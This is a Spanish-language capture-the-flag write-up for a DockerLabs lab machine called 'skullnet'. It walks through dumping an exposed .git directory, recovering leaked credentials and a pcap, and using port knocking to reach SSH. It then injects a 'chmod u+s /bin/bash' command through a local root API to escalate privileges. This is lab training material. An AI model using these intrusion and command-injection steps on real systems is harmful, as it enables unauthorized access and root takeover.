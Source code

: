 nmap: 80
![[dockerlabs/dificil/skullnet/nmap.png]]

---
agregamos "skullnet.es" en nano /etc/host y entramos a la pagina
![[dockerlabs/dificil/skullnet/pagina principal.png]]
no hay nada, hacemos un nmap mas profundo en el puerto 80
da un git. quedaría así la búsqueda: http://skullnet.es/.git/
![[nmap2.png]]

quedamos donde hay muchos archivos y nos pasamos los archivos a nuestra terminal
![[pagina2.png]]
lo pasamos con: 
> wget -r http://skullnet.es/.git/

hacemos un "git log" para ver los archivos modificados y da dos:
> fix y First commit

hacemos un: git checkout -- . 

hacemos otra vez el "git log" y nos copiamos esto: 
>648d951e0f8b7cc60b11c82d9328fe9cb1a4a53d

![[gitlog.png]]

colocamos:
>git reset 648d951e0f8b7cc60b11c82d9328fe9cb1a4a53d

y nos da: 

     - Unstaged changes after reset:
     - D authentication.txt
     - D network.pcap

colocamos "git diff" y vemos los cambios que se han realizado

volvemos hacer un "git checkout -- ." y tenemos los archivos

entramos al authentication.txt y nos da:

     - cat authentication.txt 
     - Hello skulloperator, as you know, we are implementing a new authentication mechanism to avoid brute-forcing...
     - This credential and the attached network file will be enough. I know you will get it ;)
     - +%7nj^g!DQxp]a>c4v&0

el final del resultado de esos paso: 
![[resultado1.png]]

la ultima es una posible contraseña, pero igual tenemos el archivo de red adjuntado que es el "network.pcap" que es un wireshark
lo abrimos: wireshark network.pcap

abrirá wireshark con las reglas capturadas y las revisaremos

las primeras 5 peticiones son mas color gris y hace peticiones en los puertos:
> 1000, 12000, 5000, 22 y 38118
![[wire.png]]

como el puerto 22 esta cerrado hacemos un: 

     knock -v 172.18.0.2 1000 12000 5000 -d 4

se abrirá el puerto 22 y tenemos el usuario como contraseña que menciono antes: 
> skulloperator / +%7nj^g!DQxp]a>c4v&0

y estamos dentro
![[proceso1.png]]
ahora escalamos

al hacer un sudo -l o find, no muestra nada

al hacer un "ps -faux" muestra que se ejecuta un "cron -P" donde se ejecuta un archivo : 
>bin/sh -c python3 /var/www/skullnet.es/skullnet_api.py
![[psaux.png]]

ingresamos a la ruta, entramos con nano al skullnet_api, pero no tenemos permisos de escritura pero si de lectura

dentro muestra que se abre un puerto 8081 que dentro se pueden ejecutar comando como "ls" o "whoami" y para que funcione se tiene que mandar un token de autorización que nos permita ejecutar y dentro hay una "AUTH_KEY_BASE64 = "d2VfYXJlX2JvbmVzXzUxMzU0NjUxNjQ4NjQ4NA=="
"
![[nano1.png]]

lo sacamos con:

    echo 'd2VfYXJlX2JvbmVzXzUxMzU0NjUxNjQ4NjQ4NA=' | base 64 -d 

>nos da: we_are_bones_513546516486484  
![[base1.png]]

en el código aparece que hay que iniciar con una palabra que comience por "basic"

ejecutamos el comando:

    curl 127.0.0.1:8081?exec?=whoami -H "authorization: Basic we_are_bones_513546516486484"

ahora en el terminal victima hacemos un: 
 
    curl 127.0.0.1:8081?exec=whoami -H "Authorization: Basic we_are_bones_513546516486484"

>que nos mostrara: root
![[root1.png]]

seguimos probando aparte del whoami, mandamos un id para esta pagina: https://www.urlencoder.org/

quedaría: whoami%3Bid

y ahora quedaría así: 

    curl 127.0.0.1:8081?exec=whoami%3Bid -H "Authorization: Basic we_are_bones_513546516486484"

que nos da los grupos con el id
![[grupo1.png]]

ya que funciona le intentamos dar permisos así:
> whoami;chmod u+s /bin/bash

y quedaría así el código: 

    curl 127.0.0.1:8081?exec=whoami%3Bchmod%20u%2Bs%20%2Fbin%2Fbash -H "Authorization: Basic we_are_bones_513546516486484"

lo lanzamos aparece solo root, vemos si cambio los permisos 
> ls -ls /bin/bash

ahora aparece en rojo, lanzamos un bash -p
![[rootfinal.png]]
y somos root! 

